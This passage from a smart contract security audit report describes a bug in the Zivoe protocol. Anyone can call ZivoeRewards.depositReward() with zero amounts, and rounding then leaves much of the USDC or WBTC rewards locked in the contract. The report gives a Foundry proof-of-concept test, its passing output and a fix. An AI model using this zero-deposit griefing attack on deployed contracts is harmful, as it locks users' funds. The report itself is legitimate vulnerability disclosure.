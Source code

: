 ````ZivoeRewards.depositReward()```` has no access control, attackers can call it with zero amount of ````reward```` to get some reward tokens stuck in contract. The locked amount could be significant especially when reward tokens have small decimals such as ````USDT/USDC/WBTC````.
        vm.warp(timestamp + 365 days + 1); // make sure all reward distributed
        vm.prank(alice);
        stZVE.getRewards();
        uint256 balance = IERC20(USDC).balanceOf(alice);
        assertApproxEqAbs(346e6, balance, 1e6);
        balance = IERC20(USDC).balanceOf(address(stZVE));
        assertApproxEqAbs(654e6, balance, 1e6);
        console2.log("Expected reward: 1,000 USDC, actual reward: 346 USDC, locked: 654 USDC");
    }

    function testAttackOnWBTCReward() public {
        uint256 timestamp = block.timestamp;
        for (uint256 i; i < 20; ++i) {   
            vm.warp(timestamp += 12);
            // deposit nothing
            stZVE.depositReward(WBTC, 0);
        }

        vm.warp(timestamp + 365 days + 1); // make sure all reward distributed
        vm.prank(alice);
        stZVE.getRewards();
        uint256 balance = IERC20(WBTC).balanceOf(alice);
        assertApproxEqAbs(3.4e8, balance, 0.1e8);
        balance = IERC20(WBTC).balanceOf(address(stZVE));
        assertApproxEqAbs(6.6e8, balance, 0.1e8);
        console2.log("Expected reward: 10 WBTC, actual reward: 3.4 WBTC, locked: 6.6 WBTC");
    }
}
```

The test log:
```solidity
2024-03-zivoe\zivoe-core-testing> forge test --mc TestDepositRewardBug -vv
[⠰] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/TESTS_Core/Bug_DepositReward.t.sol:TestDepositRewardBug
[PASS] testAttackOnUSDCReward() (gas: 822088)
Logs:
  Expected reward: 1,000 USDC, actual reward: 346 USDC, locked: 654 USDC

[PASS] testAttackOnWBTCReward() (gas: 788716)
Logs:
  Expected reward: 10 WBTC, actual reward: 3.4 WBTC, locked: 6.6 WBTC

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 30.37s (5.20s CPU time)

Ran 1 test suite in 30.41s (30.37s CPU time): 2 tests passed, 0 failed, 0 skipped (2 total tests)

```
## Impact
Fund get stuck in contract

## Code Snippet
https://github.com/sherlock-audit/2024-03-zivoe/blob/d4111645b19a1ad3ccc899bea073b6f19be04ccd/zivoe-core-foundry/src/ZivoeRewards.sol#L228C14-L228C27

## Tool used

Manual Review

## Recommendation
Increasing the precision of ````rewardRate```` by ````1e18````.
````